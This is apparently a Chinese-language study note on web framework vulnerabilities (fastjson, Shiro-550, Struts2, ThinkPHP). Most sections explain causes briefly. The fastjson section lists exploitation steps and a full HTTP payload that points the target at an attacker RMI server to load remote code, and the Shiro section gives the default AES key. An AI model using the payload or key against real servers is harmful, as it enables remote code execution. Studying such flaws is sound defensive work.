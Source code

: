 # 🥮 框架漏洞

框架漏洞是指在应用·程序开发过程中使用的开发框架，例如：web应用程序框架，操作系统框架等中存在的安全弱点和漏洞。这些框架能够帮助开发人员能够更快速的构建应用程序，然后这些框架也包含漏洞，导致应用程序容易受到攻击。



## 1.fastjson1.2.24 RCE漏洞

### ①fastjson介绍：

Fastjson是阿里巴巴的开源JSON解析库，它可以解析JSON格式的字符串，支持将Java Bean序列化为JSON字符串，也可以从JSON字符串反序列化到JavaBean。具有执行效率高的特点，应用范围广泛。

### ②漏洞介绍：

为了读取并且判断传入的值是什么类型，增加了autotype机制导致了漏洞产生。为了要获得json数据的详细类型，每次都需要读取@type，而@type可以指定反序列化任意类调用其set，get，is方法，并且由于反序列化的特性，我们可以通过目标类的set方法自由的设置类的属性值。所以攻击者只要有rmi服务和web服务，将rmi绝对路径注入到lookup方法中，受害者JNDI接口会指向攻击者的rmi服务器，JNDI接口从攻击者控制的web服务器加载恶意代码并执行，形成了RCE漏洞

### ③漏洞原理：

如果我们可以控制JNDI客户端中传入的URL就可以起一个恶意的RMI，让JNDI来加载我们的恶意类从而起到命令执行。

References：References类有两个属性，className和codebase url，className就是远程引用的类名，codebase决定了我们远程类的位置，当本地classpath中没有找到对应的类，就会去请求codebase地址下的类（codebase支持http协议），此时如果我们将codebase地址下的类换成我们的恶意类，就能让客户端执行。



### ④利用步骤：

1.首先开启HTTP服务器，并将我们的恶意类放在目录下，

2.开启恶意的RMI服务器

3.攻击者控制URI参数，为上一步开启的恶意的RMI服务器地址。

4.恶意RMI服务器返回ReferenceWrapper类

5.目标（JNDI Client）在执行lookup操作的时候，在decodeObject中将ReferenceWrapper变成Reference类，然后远程加载并实例化我们的Factory类（即远程加载我们HTTP服务器上的恶意类）在实例化时触发静态代码片段中的恶意代码。



### ⑤payload

```
POST / HTTP/1.1
Host: 192.168.103.161:8090
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh,zh-CN;q=0.9
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 165
 
{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.103.129:9999/TouchFile",
        "autoCommit":true
    }
}
```









***

## 2.shiro-550反序列化漏洞

### ①shiro介绍：

Apache Shiro是一个强大灵活的开源的java安全框架，Shiro可以非常容易地开发出足够好的应用，其不仅可以在JavaSE环境中使用，还可以在JavaEE环境中可以实现认证，授权，加密，会话管理，web集成，缓存等功能。

### ②漏洞介绍：

Apache Shiro漏洞框架提供了记住密码的功能（Remember me），用户登陆成功后会将用户信息加密，加密过程：用户信息->序列化->AES加密->base64编码->Remember me Cookie值。如果用户勾选记住密码，那么在请求中会携带cookie值，并且将加密信息存放在cookie地remember Me字段里面，在服务端收到请求对rememeber Me值，先base64解码然后AES解密再反序列化，这个加密过程如果我们知道AES加密密钥，那么就可以把用户信息替换成恶意命令，就导致了反序列化RCE漏洞。在shiro版本<=1.2.4中使用了默认密钥kPH+bIxk5D2deZiIxcaaaA==，这样就更容易触发RCE漏洞。所以我们Payload产生的过程就是：命令->序列化->AES加密->base64编码->Remember me Cookie值

### ③漏洞原理：

在未登录的情况下，请求包的cookie中没有rememberme字段，返回set-cookie里也没有deleteme字段。

登陆失败的话，不管有没有勾选rememberme都会返回rememberme=deleteme字段。不勾选Rememberme

登录成功的话，返回包set-cookie中有remember Me=delete字段，但是之后的请求中cookie都不会有cookie字段。

勾选rememberme，登录成功的话，返回包set-cookie里有rememberme=deleteme字段，还会有remember字段，之后的请求中cookue都会有rememberme字段，或者可以在cookie后面自己加一个rememberme=1，看返回包中有没有rememberme=deleteme











***

## 3.struts2反序列化漏洞

### ①漏洞介绍：

由Xstream组件在解析用户提交的xml数据时，rest-plugin会根据url扩展名或者content-type来判断解析方法，并且缺乏适当的输入验证和控制，导致攻击者可以修改orders.xhtml为orders.xml或者修改content-type为application/xml，即可在body中传递xml数据，在xml请求中嵌入特殊的payload，从而利用反序列化漏洞进行远程代码执行。





***

## 4.strutrs2Content-Type注入漏洞

①漏洞介绍

struts2框架在处理HTTP请求中的Content-Type头部时存在的安全问题，Struts2框架负责解析和处理web应用程序中的HTTP请求。其中，他会检查Content-type请求，以确定请求的数据类型。攻击者可以在HTTP请求的Content-Type投不中注入恶意的OGNL表达式，而Struts2会不加验证地执行这些表达式从而允许执行任意代码





***

## 5.ThinkPHP5.0.23远程代码执行漏洞

①漏洞介绍：

获取method方法中没有正确处理方法名，导致攻击者可以调用Request类任意方法并构造利用链，从而导致远程代码执行漏洞





***

## 6.ThinkPHP5.0.22/5.1.29远程代码执行漏洞

①漏洞介绍：

由于没有正确处理控制器名，导致在网站没有开启强制路由的情况下，可以执行任意方法，从而导致远程命令执行漏洞。归根究底就是因为把控制器名字\开头作为类名导致我们可以实例化任意类，后面的payload也是基于此漏洞的利用。





***

7\.





























## 参考门：

[https://m.freebuf.com/articles/web/382415.html](https://m.freebuf.com/articles/web/382415.html)





